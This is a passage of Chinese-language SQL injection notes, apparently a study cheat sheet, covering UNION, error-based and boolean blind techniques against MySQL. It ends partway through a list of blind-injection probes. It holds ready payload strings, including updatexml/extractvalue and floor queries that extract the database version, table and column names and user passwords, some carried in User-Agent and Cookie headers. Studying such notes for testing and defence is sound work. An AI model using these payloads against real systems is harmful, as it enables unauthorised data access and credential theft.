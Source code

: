 ### 按攻击类型分类

1.  **联合查询注入 (UNION Attack):**
    *   **概述:** 使用 `UNION` 操作符连接额外的 `SELECT` 语句，在原始查询结果后附加其他数据。常与 `ORDER BY` 语句结合，用于确定列数。
    *   **关键库/表 (MySQL):**
        *   `information_schema`: 存储数据库元数据（库名、表名、列名等）的系统数据库。
        *   `information_schema.schemata`: 存储所有数据库名称。
        *   `information_schema.tables`: 存储所有表名及其所属数据库。
        *   `information_schema.columns`: 存储所有列名及其所属表、库。
        *   `mysql.user`: 可能存储数据库用户信息（在旧版本或特定配置下）。
2.  **报错注入 (Error-based):**
    *   **概述:** 利用数据库的报错机制，使查询结果在错误信息中显示出来。
    *   **常用函数 (MySQL):**
        *   `updatexml(XML_document, XPath_string, new_value)`: 通过构造非法的XPath（第二个参数）使其报错。
        *   `extractvalue(XML_frag, XPath_expr)`: 类似 `updatexml`，通过构造非法XPath（第二个参数）报错。
        *   `floor()`: 结合 `rand()`, `count(*)`, `group by` 构造重复键错误。
    *   **常用辅助函数:**
        *   `concat()`: 连接字符串。
        *   `rand()`: 生成随机数。
        *   `floor()`: 向下取整。
        *   `group by`: 分组。
    *   **Payload 示例 (updatexml/extractvalue):**
        ```sql
        -- 爆版本
        k%' or updatexml(1,concat(0x7e,(select @@version),0x7e),1) #
        k%' or extractvalue(1,concat(0x7e,(select @@version),0x7e)) #
        -- 爆库名
        k' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) #
        -- 爆表名 (使用 limit 逐行获取)
        k'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='数据库名' limit 0,1)),0) #
        -- 爆列名
        k' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='表名' limit 0,1)),0) #
        -- 爆数据
        k' and updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) #
        ```
    *   **Payload 示例 (floor):**
        ```sql
        select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2));
        ```
    *   **INSERT/UPDATE 语句报错注入:**
        *   在 `INSERT` 或 `UPDATE` 语句的值部分注入，需构造 `or` 使语句闭合。
        *   示例: `k' or updatexml(1,concat(0x7e,(命令)),0) or'`
    *   **HTTP头/Cookie 报错注入:**
        *   如果 `User-Agent` 或 `Cookie` 值被用于SQL查询，可尝试注入。
        *   示例 (User-Agent): `User-Agent: Mozilla' or updatexml(1,concat(0x7e,database()),0) or '`
        *   示例 (Cookie): `Cookie: ant[uname]=admin' and updatexml(1,concat(0x7e,database()),0) #`
3.  **布尔盲注 (Boolean-based Blind):**
    *   **概述:** 页面仅返回“真”和“假”两种不同状态（如“查询成功”/“查询失败”），无法直接获取数据。通过构造逻辑判断语句，逐个字符猜测信息。
    *   **常用函数:**
        *   `length()`: 获取字符串长度。
        *   `substr()` / `substring()` / `mid()`: 截取字符串。
        *   `ascii()` / `ord()`: 获取字符的ASCII码。
    *   **Payload 示例:**
        ```sql
        -- 判断是否存在注入
        ' and 1=1 #
        ' and 1=2 #
        -- 猜解数据库名长度
        ' and length(database()) = 5 #
        -- 猜解数据库名第一个字符的ASCII码